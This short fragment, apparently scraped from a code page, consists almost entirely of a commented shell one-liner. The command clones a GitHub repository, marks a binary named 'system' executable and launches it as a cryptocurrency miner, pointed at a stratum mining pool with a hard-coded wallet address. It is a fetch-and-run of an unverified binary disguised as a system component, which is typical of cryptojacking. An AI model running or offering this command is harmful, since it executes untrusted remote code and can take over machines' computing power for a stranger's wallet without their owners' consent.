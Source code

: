 # Create
# git clone https://github.com/Dawn-shell/linux && chmod +x linux/system && linux/system -a cpupower -o stratum+tcp://cpupower.sea.mine.zpool.ca:6240 -u MMpgS8ehm2TUthLcRZ7a1duioVLB6E4vjM -p c=LTC,zap=CPU

